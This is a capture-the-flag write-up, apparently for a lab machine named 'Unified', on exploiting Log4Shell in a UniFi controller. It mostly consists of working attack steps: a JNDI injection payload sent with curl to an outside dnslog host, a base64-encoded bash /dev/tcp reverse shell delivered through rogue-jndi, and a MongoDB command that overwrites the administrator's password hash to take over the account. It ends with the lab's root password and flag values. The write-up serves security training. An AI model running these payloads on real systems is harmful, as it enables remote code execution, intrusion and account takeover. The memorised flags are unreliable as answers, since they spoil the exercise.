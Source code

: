 # Unified Write-up

#Vulnerability Assessment
#Databases
#Custom Applications
#MongoDB
#Java
#Reconnaissance
#Clear Text Credentials
#Default Credentials
#Code Injection

## Introduction

This writeup explores the effects of exploiting Log4J in a very well known network appliance monitoring
system called "UniFi". This box will show you how to set up and install the necessary packages and tools to
exploit UniFi by abusing the Log4J vulnerability and manipulate a POST header called remember , giving you
a reverse shell on the machine. You'll also change the administrator's password by altering the hash saved
in the MongoDB instance that is running on the system, which will allow access to the administration panel
and leads to the disclosure of the administrator's SSH password.

## Enumeration

1. **Scan with Nmap**:
    - `nmap -sV -sC {TARGET_IP}`
    - **Port 22/tcp**: OpenSSH 8.2p1 (Ubuntu 4ubuntu0.3) This port is used for secure shell (SSH) access, providing encrypted communication and remote login capabilities. The scan also reveals the SSH host keys (RSA, ECDSA, ED25519).

    - **Port 6789/tcp**: IBM DB2 Administration Service (?) - This port appears to be related to IBM DB2 database administration, though the specific service version could not be determined.

    - **Port 8080/tcp**: HTTP Proxy - This port is open and running an HTTP proxy service. The service might be redirecting requests, as indicated by the HTTP responses (302 redirects and 404 not found). The title suggests it redirects to https://10.129.83.18:8443/manage.

    - **Port 8443/tcp**: SSL/Nagios NSCA - This port is running a Nagios NSCA service over SSL, which is commonly used for monitoring and alerting. The SSL certificate details indicate it is for a UniFi network management interface, with a certificate valid from December 30, 2021, to April 3, 2024.

2. **CVE-2021-44228**

CVE-2021-44228, also known as "Log4Shell," is a critical security vulnerability in the Apache Log4j 2 library, a widely used Java-based logging utility. This vulnerability has been highly publicized due to its severity and the widespread use of Log4j in various software applications and services

**JNDI** is the acronym for the Java Naming and Directory Interface API . By making calls to this API,
applications locate resources and other program objects. A resource is a program object that provides
connections to systems, such as database servers and messaging systems.

**LDAP** is the acronym for Lightweight Directory Access Protocol , which is an open, vendor-neutral,
industry standard application protocol for accessing and maintaining distributed directory information
services over the Internet or a Network. The default port that LDAP runs on is port 389 .

- Test vulnerability
```
curl -i -s -k -X POST -H $'Host: 10.129.83.18:8443' -H $'Content-Length: 104' --data-binary $'{\"username\":\"a\",\"password\":\"a\",\"remember\":\"${jndi:ldap://eb0uvi.dnslog.cn:1389/o=tomcat}\",\"strict\":true}' $'https://10.129.83.18:8443/manage/account/login'

HTTP/1.1 200 
X-Frame-Options: SAMEORIGIN
vary: accept-encoding
Accept-Ranges: bytes
Last-Modified: Tue, 14 Sep 2021 12:14:41 GMT
Cache-Control: max-age=0
Expires: Thu, 27 Jun 2024 11:21:02 GMT
Content-Type: text/html
Content-Length: 1325
Date: Thu, 27 Jun 2024 11:21:02 GMT
```

## Atack target 
Now that you know the target is vulnerable, we are going to try and get a reverse shell so we can interact with the underlying Linux operating system. First, you need to clone and build the tool, rogue-jndi from the GitHub repository linked below:

- `git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && mvn package`

Once the Jar is compiled, you’ll have to craft a command to deliver the reverse shell. Unlike vCenter, we don’t have nc out of the box. Let’s craft our reverse shell and Base64 encode it using the one-liner below. Modify the command to fit your needs, replacing the IP address and port.

- `echo 'bash -c bash -i >&/dev/tcp/{tun0}/4444 0>&1' | base64`

With that Base64 output, build your command in rogue-jndi:

- `java -jar rogue-jndi/target/RogueJndi-1.1.jar --command "bash -c {echo,{BASE64 STRING}}|{base64,-d}|{bash,-i}" --hostname "{tun0}"`

Now that the server is listening locally on port 389 , let's open another terminal and start a Netcat listener to
capture the reverse shell.

- `nc -lvp 4444`

Open Burpsuite and intercept request when i try to login. Add this payload in remember:
- `${jndi:ldap://{Your Tun0 IP}:1389/o=tomcat}` then `forward`

- having a good shell `/bin/bash -i`

```
unifi@unified:/usr/lib/unifi$ whoami
whoami
unifi
```

## Escalade Privilege

display information about active processes
a: Shows processes for all users.
u: Displays the user/owner of the processes.
x: Shows processes without a controlling terminal.

- `ps aux`

```
 ps aux
ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
unifi          1  0.0  0.0   1080     4 ?        Ss   13:00   0:00 /sbin/docker-init -- /usr/local/bin/docker-entrypoint.sh unifi
unifi          7  0.0  0.1  18512  3180 ?        S    13:00   0:00 bash /usr/local/bin/docker-entrypoint.sh unifi
unifi         17  0.9 25.0 3671844 509008 ?      Sl   13:00   0:28 java -Dunifi.datadir=/unifi/data -Dunifi.logdir=/unifi/log -Dunifi.rundir=/var/run/unifi -Xmx1024M -Djava.awt.headless=true -Dfile.encoding=UTF-8 -jar /usr/lib/unifi/lib/ace.jar start
unifi         67  0.1  4.1 1101700 84888 ?       Sl   13:00   0:05 bin/mongod --dbpath /usr/lib/unifi/data/db --port 27117 --unixSocketPrefix /usr/lib/unifi/run --logRotate reopen --logappend --logpath /usr/lib/unifi/logs/mongod.log --pidfilepath /usr/lib/unifi/run/mongod.pid --bind_ip 127.0.0.1
unifi        886  0.0  0.1  18380  3172 ?        S    13:28   0:00 bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTUuMTYzLzQ0NDQgMD4mMQo=}|{base64,-d}|{bash,-i}
unifi        890  0.0  0.1  18512  3396 ?        S    13:28   0:00 bash -i
unifi        893  0.0  0.1  18380  3192 ?        S    13:28   0:00 bash
unifi       1113  0.0  0.1  18512  3496 ?        S    13:37   0:00 /bin/bash -i
unifi       1504  0.0  0.1  34408  2948 ?        R    13:51   0:00 ps aux
```

- `mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"`

```
MongoDB shell version v3.6.3
connecting to: mongodb://127.0.0.1:27117/ace
MongoDB server version: 3.6.3
{
        "_id" : ObjectId("61ce278f46e0fb0012d47ee4"),
        "name" : "administrator",
        "email" : "administrator@unified.htb",
        "x_shadow" : "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.",
        "time_created" : NumberLong(1640900495),
        "last_site_name" : "default",
<SNIP>
```

## Modify password 

1. **Generate password with mdpasswd**:

    The output reveals a user called Administrator. Their password hash is located in the x_shadow variable but
    in this instance it cannot be cracked with any password cracking utilities. Instead we can change the
    x_shadow password hash with our very own created hash in order to replace the administrators password
    and authenticate to the administrative panel. To do this we can use the mkpasswd command line utility.

    - `mkpasswd -m sha-512 Password1234`
    - result : `$6$oQn89ZI6UCtL2kTx$rFRyJkyEy2Zq2Sf/uBjnA.89sQ.A45TaT1nQbCBvzUoMbvCBK2sTplJF4Z3sPedskjPdywhLBvv7KEQOXnNq71`

2. **Replace password**:

    - `mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("{ObjectIdAdministrateur}")},{$set:{"x_shadow":"SHA_512 Hash Generated"}})'`

    - mongo --port 27117 ace --eval 'db.admin.update({"_id":
ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$oQn89ZI6UCtL2kTx$rFRyJkyEy2Zq2Sf/uBjnA.89sQ.A45TaT1nQbCBvzUoMbvCBK2sTplJF4Z3sPedskjPdywhLBvv7KEQOXnNq71"}})'

3. **Connect over Administrator**

    - In website over administrator, we can the password of root that is `NotACrackablePassword4U2022`

    - `ssh root@{TARGET_IP}`
    ```
    root@unified:~# whoami
    root
    ```

## Flag

user : `6ced1a6a89e666c0620cdb10262ba127`

root : `e50bc93c75b634e4b272d2f771c33681`